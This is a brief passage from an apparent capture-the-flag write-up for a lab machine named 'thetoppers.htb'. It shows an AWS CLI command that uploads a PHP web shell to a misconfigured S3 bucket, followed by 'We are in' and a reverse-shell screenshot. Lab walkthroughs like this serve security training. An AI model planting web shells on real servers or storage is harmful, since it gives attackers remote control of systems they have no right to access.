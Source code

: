 ```shell {linenos=false}
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

We are in.

![rs](images/rs.png#center)

Let's search for the flag and be done :grin:
